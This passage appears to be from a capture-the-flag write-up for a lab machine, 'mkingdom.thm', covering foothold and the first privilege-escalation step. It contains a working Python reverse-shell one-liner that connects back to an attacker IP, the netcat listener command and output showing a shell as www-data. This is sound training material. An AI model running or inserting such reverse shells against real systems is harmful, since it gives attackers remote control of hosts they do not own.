 we have an interactive shell

![[phpbash.png]]


# Persistence

# Privilege Escalation

### User Toad

setting up a reverse shell

we can see that python exists on the system

```
www-data@mkingdom.thm

:/var/www/html/app/castle/application/files/6317/3227/4955# which python

  
/usr/bin/python
```

```
nc -lvnp 1337
```

```
export RHOST="10.6.24.127";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```


we get a hit on our reverse shell

```
listening on [any] 1337 ...
connect to [10.6.24.127] from (UNKNOWN) [10.10.210.78] 38134
$ whoami
whoami
www-data
$ uname -a
uname -a
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```


```
export TERM=linux
python -c "import pty; pty.spawn('/bin/bash')"
```

